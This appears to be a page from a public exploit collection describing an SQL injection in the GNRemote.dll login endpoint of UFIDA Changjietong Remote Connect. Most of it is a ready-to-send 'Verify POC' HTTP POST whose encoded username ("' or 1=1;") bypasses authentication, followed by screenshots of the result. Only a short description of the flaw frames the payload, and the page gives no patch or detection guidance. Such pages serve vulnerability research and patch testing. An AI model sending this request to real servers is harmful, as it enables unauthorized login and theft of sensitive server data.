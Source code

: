 # UFIDA Changjietong Remote Connect GNRemote.dll SQL injection vulnerability

## Vulnerability Description

UFIDA Changjietong Remote Connect GNRemote.dll SQL injection vulnerability, attackers can obtain server sensitive information or use universal password to log in to the device

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Changjietong Remote Connect</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664803780708-4fd98949-6c9a-4dca-9c06-9ff70231516f.png)

Verify POC

```sql
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664803838437-475c0c08-3cf2-482d-afbd-2c703ef58475.png)![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664803846559-8bf28c7c-a65a-4aca-8188-839f57a401d3.png)